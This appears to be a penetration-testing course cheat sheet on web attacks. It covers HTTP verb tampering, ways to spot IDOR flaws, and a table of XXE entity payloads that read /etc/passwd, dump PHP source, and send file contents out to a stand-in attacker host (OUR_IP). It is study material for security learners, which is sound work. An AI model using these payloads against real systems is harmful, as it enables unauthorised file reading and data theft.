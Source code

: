 # Web Attacks

## **Cheat Sheet**

The cheat sheet is a useful command reference for this module.

### HTTP Verb Tampering

`HTTP Method`

* `HEAD`
* `PUT`
* `DELETE`
* `OPTIONS`
* `PATCH`

| **Command**  | **Description**           |
| ------------ | ------------------------- |
| `-X OPTIONS` | Set HTTP Method with Curl |

### IDOR

`Identify IDORS`

* In `URL parameters & APIs`
* In `AJAX Calls`
* By `understanding reference hashing/encoding`
* By `comparing user roles`

| **Command** | **Description**        |
| ----------- | ---------------------- |
| `md5sum`    | MD5 hash a string      |
| `base64`    | Base64 encode a string |

### XXE

| **Code**                                                                           | **Description**                                |
| ---------------------------------------------------------------------------------- | ---------------------------------------------- |
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                | Define External Entity to a URL                |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                        | Define External Entity to a file path          |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`        | Reading a file through a PHP error             |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`  | Reading a file OOB exfiltration                |



## Introduction to Web Attacks

